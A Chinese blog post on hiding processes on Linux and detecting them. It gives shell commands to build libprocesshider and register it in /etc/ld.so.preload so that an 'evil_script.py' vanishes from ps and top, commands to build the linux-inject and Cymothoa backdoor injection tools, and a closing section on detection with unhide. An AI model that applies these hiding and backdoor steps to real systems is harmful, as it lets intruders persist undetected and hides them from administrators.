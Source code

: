 # Linux进程隐藏与检测




## 进程隐藏

让管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏。



**网上很多方法基本都是通过如下方式来达到进程隐藏：**

1.根据分组权限来实现不同用户组查看不同的进程权限。

2.修改内核，将需要隐藏的进程的进程pid改为0（**task->pid = 0**），因为ps,top命令不会显示进程id为0的进程。

3.修改内核，hook掉系统调用，在hook函数中修改逻辑判断已达到隐藏进程。

4.在用户态修改系统调用，从而隐藏进程(libprocesshider就是此方法)。

> 以下方法与上述无直接对应关系

### 第一种方法：libprocesshider

github项目地址：https://github.com/gianlucaborello/libprocesshider

利用`LD_PRELOA`来实现系统函数的劫持，实现如下

```bash
# 下载程序编译 
git clone https://github.com/gianlucaborello/libprocesshider.git 
cd libprocesshider/ && make 

# 移动文件到/usr/local/lib/目录下 
cp libprocesshider.so /usr/local/lib/ 

# 把它加载到全局动态连接局 
echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```



测试运行evil_script.py

此时发现在top 与 ps 中都无法找到 evil_script.py





### 第二种方法：进程注入工具linux-inject

linux-inject是用于将共享对象注入Linux进程的工具

github项目地址： https://github.com/gaffffe23/linux-inject.git

```bash
# 下载程序编译 
git clone https://github.com/gaffe23/linux-inject.git 

cd linux-inject && make 

# 测试进程 
./sample-target 

# 进程注入 
./inject -n sample-target sample-library.so
```



验证进程注入成功，如下图所示：





### Cymothoa

Cymothoa是一款隐秘的后门工具。它通过向目标主机活跃的进程注入恶意代码，从而获取和原进程相同的权限。该工

具最大的优点就是不创建新的进程，不容易被发现。

下载地址：https://sourceforge.net/projects/cymothoa/fifiles/cymothoa-1-beta/

```bash
# 下载解压 
wget https://jaist.dl.sourceforge.net/project/cymothoa/cymothoa-1-beta/cymothoa-1-beta.tar.gz 

tar zxvf cymothoa-1-beta.tar.gz 

#
cd cymothoa-1-beta && make
```







## 检测隐藏进程

unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个

工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。

下载地址：http://www.unhide-forensics.info/

```bash
# 安装
sudo yum install unhide 

# 使用 
unhide [options] test_list
```

使用 命令`unhide proc`发现隐藏进程evil_script.py









## 参考

https://blog.csdn.net/weixin_45225923/article/details/120122800

https://blog.csdn.net/weixin_30300523/article/details/99481499

https://blog.csdn.net/weixin_29635919/article/details/116554850?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-1.pc_relevant_default&utm_relevant_index=2









---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/linux%E8%BF%9B%E7%A8%8B%E9%9A%90%E8%97%8F%E4%B8%8E%E6%A3%80%E6%B5%8B/  


